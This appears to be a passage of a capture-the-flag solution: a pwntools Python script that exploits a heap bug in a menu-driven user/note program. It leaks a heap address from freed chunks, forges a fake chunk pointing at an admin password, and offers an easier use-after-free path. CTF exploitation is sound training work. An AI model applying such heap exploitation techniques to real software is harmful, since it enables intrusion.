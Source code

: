 ```python=
    r.sendlineafter(b'size\n> ', str(note_size))
    r.send(message)

def del_user(idx):
    r.sendafter(b"> ", b"3")
    r.sendlineafter(b'index\n> ', str(idx))

def show_user():
    r.sendafter(b"> ", b"4")


'''------------------
Hard solution
------------------'''
edit_data(0, 0x8, b'a')
add_user(1, b'a'*8, b'aaaa')
edit_data(1, 0x20, b'a')
add_user(2, b'b'*8, b'bbbb')
del_user(2)
del_user(1)
show_user()
r.recvuntil(b'[1] ')

admin_pass_addr = u64(r.recv(6).ljust(8, b'\x00')) - 0x70
print(hex(admin_pass_addr))
add_user(1, b'a'*8, b'aaaa')
fake_chunk = flat(
    b'a'*8, b'a'*8,
    b'a'*8, 0x31,
    b'a'*8, b'a'*8,
    b'a'*8, b'a'*8,
    admin_pass_addr, 
)

edit_data(1, 0x20, b'a')
edit_data(0, 0x48, fake_chunk)
show_user()

'''------------------
Easy solution
------------------'''
add_user(1, b'a'*8, b'aaaa')
del_user(0)
edit_data(1, 0x20, b'b'*16)
show_user()

r.interactive()
```
:::